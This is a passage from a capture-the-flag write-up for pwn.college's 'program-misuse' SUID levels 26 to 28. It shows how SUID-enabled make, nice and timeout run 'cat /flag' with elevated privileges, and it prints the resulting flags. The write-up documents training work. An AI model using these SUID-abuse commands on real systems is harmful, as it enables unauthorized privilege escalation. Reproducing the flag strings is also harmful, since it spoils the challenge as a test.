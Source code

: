 ```
hacker@program-misuse~level26:~$ make
cat /flag
pwn.college{8bi1fE5_8eibNGb1Yc5D264ZZgx.0FO2EDL4ITM0EzW}
```

&nbsp;

## level 27

> Enables you to read flags by making them execute other commands!

```
hacker@program-misuse~level27:/$ /challenge/babysuid_level27 
Welcome to /challenge/babysuid_level27!

This challenge is part of a series of programs that
will enable you to read flags by making them execute other commands.

I just set the SUID bit on /usr/bin/nice.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level27) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/nice!
```

The `nice` utility ca be used to adjust the process scheduling. 

```
hacker@program-misuse~level27:/$ nice cat /flag 
pwn.college{EaXmDDsfhaj9gThFrAMx8d1dNhL.0VO2EDL4ITM0EzW}
```

&nbsp;

## level 28

> Enables you to read flags by making them execute other commands!

```
hacker@program-misuse~level28:/$ /challenge/babysuid_level28 
Welcome to /challenge/babysuid_level28!

This challenge is part of a series of programs that
will enable you to read flags by making them execute other commands.

I just set the SUID bit on /usr/bin/timeout.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level28) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/timeout!
```

The `timeout` utility sets a time limit on the execution of a command.

```
hacker@program-misuse~level28:/$ timeout 1 cat /flag
pwn.college{AAH2gMozSqX9aTkrJafBTkAnluZ.0FM3EDL4ITM0EzW}
```
